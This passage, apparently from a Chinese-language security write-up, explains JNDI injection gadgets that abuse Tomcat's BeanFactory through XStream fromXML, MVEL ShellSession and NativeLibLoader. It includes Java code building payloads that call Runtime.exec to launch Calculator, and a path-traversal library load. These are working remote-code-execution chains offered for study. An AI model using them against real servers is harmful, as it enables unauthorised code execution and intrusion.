 ```java  
            &#34;            &lt;sun.tracing.dtrace.DTraceProbe&gt;\n&#34; &#43;  
            &#34;              &lt;proxy class=&#39;java.lang.Runtime&#39;/&gt;\n&#34; &#43;  
            &#34;              &lt;implementing__method&gt;\n&#34; &#43;  
            &#34;                &lt;class&gt;java.lang.Runtime&lt;/class&gt;\n&#34; &#43;  
            &#34;                &lt;name&gt;exec&lt;/name&gt;\n&#34; &#43;  
            &#34;                &lt;parameter-types&gt;\n&#34; &#43;  
            &#34;                  &lt;class&gt;java.lang.String&lt;/class&gt;\n&#34; &#43;  
            &#34;                &lt;/parameter-types&gt;\n&#34; &#43;  
            &#34;              &lt;/implementing__method&gt;\n&#34; &#43;  
            &#34;            &lt;/sun.tracing.dtrace.DTraceProbe&gt;\n&#34; &#43;  
            &#34;          &lt;/entry&gt;\n&#34; &#43;  
            &#34;        &lt;/probes&gt;\n&#34; &#43;  
            &#34;      &lt;/handler&gt;\n&#34; &#43;  
            &#34;    &lt;/dynamic-proxy&gt;\n&#34; &#43;  
            &#34;    &lt;string&gt;/System/Applications/Calculator.app/Contents/MacOS/Calculator&lt;/string&gt;\n&#34; &#43;  
            &#34;  &lt;/java.util.PriorityQueue&gt;\n&#34; &#43;  
            &#34;&lt;/java.util.PriorityQueue&gt;&#34;;  
    ref.add(new StringRefAddr(&#34;forceString&#34;, &#34;a=fromXML&#34;));  
    ref.add(new StringRefAddr(&#34;a&#34;, xml));  
    return ref;  
}  
```  
### MVEL  
MVEL的入口在`org.mvel2.sh.ShellSession#exec(String)`进入会按照内置的几个命令进行处理。  
```java  
&#34;help&#34; -&gt; {Help@706}   
&#34;exit&#34; -&gt; {Exit@708}   
&#34;cd&#34; -&gt; {ChangeWorkingDir@710}   
&#34;set&#34; -&gt; {Set@712}   
&#34;showvars&#34; -&gt; {ShowVars@714}   
&#34;ls&#34; -&gt; {DirList@716}   
&#34;inspect&#34; -&gt; {ObjectInspector@718}   
&#34;pwd&#34; -&gt; {PrintWorkingDirectory@720}   
&#34;push&#34; -&gt; {PushContext@722}   
```  
其中`org.mvel2.sh.command.basic.PushContext`有调用`MVEL.eval`去解析表达式。  
也就是能够通过`ShellSession.exec`去执行push命令，从而解析MVEL表达式。  
```java  
private static ResourceRef tomcat_MVEL(){  
    ResourceRef ref = new ResourceRef(&#34;org.mvel2.sh.ShellSession&#34;, null, &#34;&#34;, &#34;&#34;,  
            true, &#34;org.apache.naming.factory.BeanFactory&#34;, null);  
    ref.add(new StringRefAddr(&#34;forceString&#34;, &#34;a=exec&#34;));  
    ref.add(new StringRefAddr(&#34;a&#34;,  
            &#34;push Runtime.getRuntime().exec(&#39;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#39;);&#34;));  
    return ref;  
}  
```  
### NativeLibLoader  
`com.sun.glass.utils.NativeLibLoader`是JDK的类，它有一个`loadLibrary(String)`方法。  
会去加载指定路径的动态链接库文件，所以只要能够上传一个动态链接库就可以用`com.sun.glass.utils.NativeLibLoader`来加载并执行命令。  
```java  
private static ResourceRef tomcat_loadLibrary(){  
    ResourceRef ref = new ResourceRef(&#34;com.sun.glass.utils.NativeLibLoader&#34;, null, &#34;&#34;, &#34;&#34;,  
            true, &#34;org.apache.naming.factory.BeanFactory&#34;, null);  
    ref.add(new StringRefAddr(&#34;forceString&#34;, &#34;a=loadLibrary&#34;));  
    ref.add(new StringRefAddr(&#34;a&#34;, &#34;/../../../../../../../../../../../../tmp/libcmd&#34;));  
    return ref;  
}  
```